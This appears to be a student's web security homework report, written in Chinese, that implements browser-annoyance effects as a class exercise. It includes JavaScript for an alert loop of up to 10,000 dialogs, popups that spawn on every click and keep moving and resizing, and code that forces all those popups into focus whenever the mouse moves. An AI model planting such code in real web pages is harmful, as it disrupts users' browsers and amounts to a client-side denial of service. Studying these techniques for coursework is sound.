


# WEB安全大作业 #02

57118321 马天行

## 作业要求

### 00 提交方式

* 在github创建repo: websec_assignment2
* repo中需要包含index.html
* 截止时间为2021.12.10 11:00

### 01 在index.html中实现三种以上的让浏览器拒绝服务或影响用户使用的效果

包括但不限于:

* 循环弹出对话框
* 新建窗口并随机变化位置
* 更改窗口焦点
* 修改回退功能的历史页面列表
* 修改搜索历史
* 退出网站登录

在报告中给出每种效果的实现说明和截图。

## 效果一 无限Alert框

### 代码实现

```javascript
function infinite_alert_loop() {
    let counter = 1
    while (counter < 10000) {
        alert("好耶( ᐛ )!")
        counter += 1
    }
}
```

### 效果演示



## 效果二 四处乱窜变形的弹窗

### 代码实现

```javascript
let popup_list = []

function random_int(min, max) {
    let rand = Math.random()
    return Math.floor(rand * (max - min) + min)
}

// 鼠标点击任意位置弹出一个肆意伸展的弹窗
// 在在追逐号窗口的过程中不小心点到空白出会出现越来越多的弹窗
function annoying_window_popup() {
    document.addEventListener("click", () => {
        let size_x = random_int(200, 400)
        let size_y = random_int(200, 400)
        let position_x = random_int(0, document.documentElement.clientWidth / 2)
        let position_y = random_int(0, document.documentElement.clientHeight / 2)
        const popup_window = open(`${location.href}beluga.webp`, "", `width=${size_x}, height=${size_y}`)
        if (!popup_window) return
        popup_list.push(popup_window)
        setInterval(() => {
            popup_window.moveTo(position_x, position_y)
            popup_window.resizeTo(size_x, size_y)
            position_x = random_int(0, document.documentElement.clientWidth / 2)
            position_y = random_int(0, document.documentElement.clientHeight / 2)
            size_x = random_int(200, 400)
            size_y = random_int(200, 400)
        }, 200)
    })
}
```

### 效果演示

和效果三一起演示。

## 效果三 把弹窗全部置顶

### 代码实现

```javascript
let popup_list = []

// 配合效果二
// 在鼠标移动时弹窗全部置顶
function focus_all_windows() {
    document.addEventListener("mousemove", () => {
        popup_list.forEach(popup_window => {
            if (!popup_window.closed) {
                popup_window.focus()
            }
        })
    })
}
```

### 效果演示



## 总结

因为没用虚拟机所以想保护一下自己的浏览器，没有做比较危险的东西。

但是它真的好烦啊。
